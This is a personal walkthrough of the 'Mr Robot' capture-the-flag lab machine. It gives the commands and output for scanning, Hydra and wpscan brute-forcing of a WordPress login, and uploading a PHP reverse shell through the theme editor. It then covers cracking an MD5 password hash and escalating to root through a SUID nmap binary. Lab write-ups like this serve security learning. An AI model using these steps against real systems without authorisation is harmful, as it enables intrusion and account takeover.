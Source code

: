 Mr.robot challenge : 23 jul 2021

i really have fun solving this one as this is my best t.v show and this challenge covers alot of basics . 

![4547076-elliot-mr-robot-rami-malek-mr -robot-hackerman-hacking](https://user-images.githubusercontent.com/67979878/126735484-55b76572-fb75-49fa-8b76-acd25e331dee.png)


machine  ip :10.10.18.63



SCANNING
========
basic scanning
----------------

$ nmap -sV -v -Pn 10.10.18.63 -oN nmap/intial

```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

```

ENUMRATION
==========

$gobuster dir -u "http://10.10.18.63/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt

```
/blog                 (Status: 301) [Size: 232] [--> http://10.10.18.63/blog/]  
/login                (Status: 302) [Size: 0] [--> http://10.10.18.63/wp-login.php]
/wp-content           (Status: 301) [Size: 238] [--> http://10.10.18.63/wp-content/]
/admin                (Status: 301) [Size: 233] [--> http://10.10.18.63/admin/]                                 
/wp-login             (Status: 200) [Size: 2599]                                    
/wp-includes          (Status: 301) [Size: 239] [--> http://10.10.18.63/wp-includes/]           
/readme               (Status: 200) [Size: 64]                                       
/robots               (Status: 200) [Size: 41]   

```
/robots.txt

[*]fsocity.dic 'a dictionary so i downloaded it '

[*]key-1-of-3.txt


http://10.10.18.63/wp-login.php

- default usernames doesn't work 


$ wpscan --url 10.10.18.63  --enumerate u  

#no results for usernames but WordPress version 4.3.1 identified


fsocity.dic will be our reference to get a username and a valid passowrd .

But it is very large let's try some stuff :

$sort -o fsocity.dic fsocity.dic

$uniq fsocity.dic > unique

now it is smaller list so less time to get the credits.

Hydra
=======
[*] to get a user from the dictionary we got 

$ hydra  -L  fsocity.dic -p test  10.10.18.63  http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:F=Invalid username" -V  

[80][http-post-form] host: 10.10.18.63   login: Elliot   password: test


[*] to get password :

$ hydra -l Elliot -P fsocity.dic 10.10.18.63  http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"  -I

X it takes too long time 

$ wpscan --url http://10.10.18.63 -U Elliot -P unique   


 | Username: Elliot, Password: ------ |  # try it your self .

now try them in the wordpress login page and it works .

EXPLOITAION
===========
downlaod pentester monkey php shell and modify 

ip = your ip 
port = any to listen at 

appearance > Editor > 404.php >upload 

-set your listener 
`$ nc -lvp 1234`

execute it :

http://10.10.18.63/wp-admin/404.php

now we have a shell as daemon .

STABLE SHELL
============
$python3 -c "import pty ; pty.spawn('/bin/bash')"

make sure you were using bash before setting the listenner .

after getting the shell background it via ctrl + z

$stty raw -echo

$fg

$export TERM=xterm 

now you have a stable shell .

PRIVILEGE ESCALATION
====================
/home/robot 

-rw-r--r-- 1 robot robot  39 Nov 13  2015 password.raw-md5

robot:c3fcd3d76192e4007dfb496cca67e13b   > crack it  > abcdefghijklmnopqrstuvwxyz

now we can be robot :)

$su robot # provide the password .

now we can read next key 

$cat /home/robot/key-2-of-3.txt 

now we need to be root to get last key .


checking suids ;

$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

this seems weird :

-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap

reading this :
----------------
https://pentestlab.blog/2017/09/25/suid-executables/ 

$ /usr/local/bin/nmap --interactive
nmap > !sh
## whoami =  root
#cat /root/key-3-of-3.txt




